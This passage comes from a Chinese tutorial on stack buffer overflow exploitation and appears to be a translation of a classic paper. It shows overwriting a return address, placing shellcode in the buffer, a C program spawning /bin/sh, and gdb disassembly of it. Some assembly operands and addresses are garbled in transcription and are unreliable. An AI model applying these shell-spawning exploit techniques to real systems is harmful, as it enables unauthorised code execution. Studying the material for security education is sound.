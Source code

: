 我们看到当调用`function()`时, RET会是`0x8004a8`, 我们希望跳过在`0x80004ab`的赋值指令. 下一个想要执行的指令在`0x8004b2`. 简单的计算告诉我们两个指令的距离为8字节.


## Shell Code

现在我们可以修改返回地址即可以改变程序执行的流程, 我们想要执行什么程序呢? 在大多数情况下我们只是希望程序派生出一个shell. 从这个shell中, 可以执行任何我们所希望的命令. 但是如果我们试图破解的程序里并没有这样的代码可怎么办呢? 我们怎么样才能将任意指令放到程序的地址空间中去呢? 答案就是把想要执行的代码放到我们想使其溢出的缓冲区里, 并且覆盖函数的返回地址, 使其指向这个缓冲区. 假定堆栈的起始地址为`0xFF`, S代表我们想要执行的代码, 堆栈看起来应该是这样:

```
内存低地址                                       内存高地址
+----------------------+------+------+------+------+------+
| DDDDDDDDEEEEEEEEEEEE | EEEE | FFFF | FFFF | FFFF | FFFF |
+----------------------+------+------+------+------+------+
| 89ABCDEF0123456789AB | CDEF | 0123 | 4567 | 89AB | CDEF |
+----------------------+------+------+------+------+------+
|       buffer         | sfp  | ret  |  a   |  b   |  c   |
+----------------------+------+------+------+------+------+
| JJSSSSSSSSSSSSSSCCss | ssss | 0xD8 | 0x01 | 0x02 | 0x03 |
+----------------------+------+------+------+------+------+
  ↑                             |
  +-----------------------------+
堆栈顶部                                           堆栈底部
```


派生出一个shell的C语言代码是这样的:

shellcode.c

```c
#include

void main() {
    char *name[2];

    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

为了查明这程序变成汇编后是个什么样子, 我们编译它, 然后祭出调试工具gdb. 记住在编译的时候要使用`-static`标志, 否则系统调用`execve`的真实代码就不会包括在汇编中,取而代之的是对动态C语言库的一个引用, 真正的代码要到程序加载的时候才会联入.

```
[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c
[aleph1]$ gdb shellcode
GDB is free software and you are welcome to distribute copies of it
under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 : pushl %ebp
0x8000131 : movl %esp,%ebp
0x8000133 : subl x8,%esp
0x8000136 : movl x80027b8,0xfffffff8(%ebp)
0x800013d : movl x0,0xfffffffc(%ebp)
0x8000144 : pushl x0
0x8000146 : leal 0xfffffff8(%ebp),%eax
0x8000149 : pushl %eax
0x800014a : movl 0xfffffff8(%ebp),%eax
0x800014d : pushl %eax
0x800014e : call 0x80002bc <__execve>
0x8000153 : addl xc,%esp
0x8000156 : movl %ebp,%esp
```